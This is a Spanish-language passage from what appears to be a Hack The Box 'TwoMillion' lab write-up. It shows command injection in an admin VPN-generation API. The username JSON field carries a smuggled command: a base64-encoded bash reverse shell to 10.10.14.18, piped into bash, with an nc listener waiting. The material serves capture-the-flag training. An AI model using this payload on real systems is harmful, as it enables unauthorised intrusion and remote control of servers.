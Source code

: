 Vemos que necesitamos añadir un parametro ```username``` , añadiremos el que habiamos creado anteriormente

```bash
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=rpf1pkevrhofovndhpd4d4nbl6" --header "Content-Type: application/json" --data '{"username":"test"}'
```

![img](/assets/img/post/twomillion/9bf6d648-b660-4df0-9576-832fee8024f9.png)

Despues de realizar la petición anterior podemos ver como se generó un archivo de configuración ```VPN```. Si este archivo está siendo generado a través de la función exec o system y no hay suficiente filtado, podríamos dar con una ```ejecución de comandos``` y así poder ```inyectar código malicioso```, este lo vamos a inyectar en el campo del usuario

![img](/assets/img/post/twomillion/f986fea6-19d2-43fa-a814-3715254ce1b2.png)

Vamos a introducir el oneline típico para conseguir una ``shell``, poniendonos en escucha desde otra terminal con ```nc```

> El comando ```bash -i >& /dev/tcp/10.10.14.18/1234 0>&1``` lo deberemos encodear en base64

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=rpf1pkevrhofovndhpd4d4nbl6" --header "Content-Type: application/json" --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80NDMgMD4mMQo= | base64 -d | bash;"}'
```

![img](/assets/img/post/twomillion/9990c3a6-47a7-4e79-ab2c-fc1a603dcf88.png)
